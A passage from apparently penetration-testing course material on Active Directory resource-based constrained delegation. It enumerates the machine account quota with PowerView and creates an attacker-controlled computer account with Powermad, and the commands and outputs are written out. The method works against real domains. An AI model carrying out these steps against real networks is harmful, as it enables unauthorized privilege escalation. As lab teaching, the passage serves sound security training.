 By default, any authenticated user can add up to ten computer accounts to the domain and they will have SPNs set automatically. This value is present in the _ms-DS-MachineAccountQuota_ property in the Active Directory domain object.

We can enumerate _ms-DS-MachineAccountQuota_ with the PowerView Get-DomainObject method:

```
PS C:\tools> Get-DomainObject -Identity prod -Properties ms-DS-MachineAccountQuota

ms-ds-machineaccountquota
-------------------------
                       10
```

> Listing 35 - Enumerating ms-DS-MachineAccountQuota

Normally, the computer account object is created when a physical computer is joined to the domain. We can simply create the object itself with the New-MachineAccount method of the _Powermad.ps1_[4](https://portal.offsec.com/courses/pen-200-44065/learning/vulnerability-scanning-48659/wrapping-up-48703/wrapping-up-48710#fn-local_id_5486-4) PowerShell script.

Powermad is located in the C:\Tools folder on the Windows 10 client machine. To use it, we'll specify the target computer account name (-MachineAccount) and the password (-Password). The password must be supplied as a _SecureString_, which we can generate with ConvertTo-SecureString[5](https://portal.offsec.com/courses/pen-200-44065/learning/vulnerability-scanning-48659/wrapping-up-48703/wrapping-up-48710#fn-local_id_5486-5) as shown in Listing 36.

```
PS C:\tools> . .\powermad.ps1

PS C:\tools> New-MachineAccount -MachineAccount myComputer -Password $(ConvertTo-SecureString 'h4x' -AsPlainText -Force)
[+] Machine account myComputer added

PS C:\tools> Get-DomainComputer -Identity myComputer

pwdlastset             : 4/14/2020 2:35:29 PM
logoncount             : 0
badpasswordtime        : 12/31/1600 4:00:00 PM
distinguishedname      : CN=myComputer,CN=Computers,DC=prod,DC=corp1,DC=com
objectclass            : {top, person, organizationalPerson, user...}
name                   : myComputer
serviceprincipalname   : {RestrictedKrbHost/myComputer, HOST/myComputer,
                         RestrictedKrbHost/myComputer.prod.corp1.com,
                         HOST/myComputer.prod.corp1.com}
...
```

> Listing 36 - Creating computer account with Powermad

Listing 36 shows that the command was successful and subsequent enumeration with Get-DomainComputer reveals that the computer account object is present.

The _msDS-AllowedToActOnBehalfOfOtherIdentity_ property stores the SID as part of a security descriptor in a binary format. We must convert the SID of our newly-created computer object to the correct format in order to proceed with the attack.
